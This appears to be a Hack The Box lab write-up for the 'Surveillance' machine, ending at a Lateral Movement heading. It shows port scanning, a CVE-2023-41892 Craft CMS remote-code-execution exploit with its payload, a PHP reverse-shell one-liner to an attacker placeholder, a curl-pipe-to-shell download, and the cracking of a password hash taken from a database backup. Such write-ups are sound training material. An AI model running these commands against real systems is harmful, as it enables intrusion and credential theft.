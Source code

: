 # Initial Enumeration
I started of with a full Nmap scan using NmapAutomator.

```bash
./nmapAutomator.sh -H <TARGET_IP> -t All
```

## Ports and Services
|  Service  |  Port  |  Version  |
|-----------|--------|-----------|
|  SSH  | 22/tcp  |  OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0) |
|  HTTP  | 80/tcp  |  nginx 1.18.0 (Ubuntu)  |

A web app with the domain `surveillance.htb` was discovered running on port 80.

# Web App Enumeration
The website on `http://surveillance.htb` is of a home security company.

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/c7b548fc-59ca-471c-a0af-d39e5a7dd24a)
 Once looking into the source code of the website, we discovered it was created using Craft CMS v4.4.14.

 # Foothold
 A quick Google search for Craft CMS v4.4.14 exploits, revealed [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892), a vulnerability that allows Remote Code Execution. A [PoC](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce) for this vulonerability was found, however we need to run Burpsuite on our machine and make some adjustments for it to work on our target - changing the return statement in `getTmpUploadDirAndDocumentRoot()`:

```python
if "no value" in match1.group(1):
        return "no value", match2.group(1)
    else:
        return match1.group(1), match2.group(1)
```

Now that we have a working exploit, we can execute it and get RCE on the target as `www-data`:

```bash
┌─[✗]─[dana404@parrot]─[~/Documents/tmp/surveillance]
└──╼ $python3 exploit.py http://surveillance.htb
[-] Get temporary folder and document root ...
HTTP Request:
Method: POST
URL: http://surveillance.htb/
Headers: {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36', 'Content-Length': '310', 'Content-Type': 'application/x-www-form-urlencoded'}
Body: action=conditions%2Frender&configObject%5Bclass%5D=craft%5Celements%5Cconditions%5CElementCondition&config=%7B%22name%22%3A%22configObject%22%2C%22as+%22%3A%7B%22class%22%3A%22%5C%5CGuzzleHttp%5C%5CPsr7%5C%5CFnStream%22%2C+%22__construct%28%29%22%3A%7B%22methods%22%3A%7B%22close%22%3A%22phpinfo%22%7D%7D%7D%7D
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Next, we will get a reverse shell by starting a Netcat Listener on our machine (`nc -lvnp 4444`), and executing the following command on the target:

```bash
php -r '$sock=fsockopen("<ATTACKER_IP>",4444);shell_exec("/bin/bash <&3 >&3 2>&3");'
```

Once we got the reverse shell, we will run the following command in order to upgrade our shell to a fully functional one:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# Enumerating the Target Machine
Because we have a fully functional shell, we can use linpeas to enumerate the machine. To so we will:
1. Download [linpeas.sh](https://linpeas.sh/) to our attack machine.
2. Start a python webserver on our attack machine: `sudo python3 -m http.server 80`.
3. From the target machine: access the linpeas file on our machine and run the script: `curl <ATTACK_IP>:80/linpeas.sh | sh`.

Linpeas found an interesting SQL backup file at `/var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql` in which we found a password hash for the user `matthew`!

```sql
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
set autocommit=0;
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','<PASSWORD_HASH>','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
commit;
```

We chose to use [CrackStation](https://crackstation.net/) to quickly crack the hash. Now that we have a username and password we can connect to the target using SSH, and find in matthew's home directory the user flag!

```bash
┌─[dana404@parrot]─[~/Documents/Labs/Surveillance]
└──╼ $ssh matthew@10.10.11.245
matthew@10.10.11.245's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 16 01:51:35 PM UTC 2023

  System load:  0.04052734375     Processes:             235
  Usage of /:   84.6% of 5.91GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.11.245
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Dec 16 10:36:33 2023 from 10.10.14.9
matthew@surveillance:~$
```

# Lateral Movement


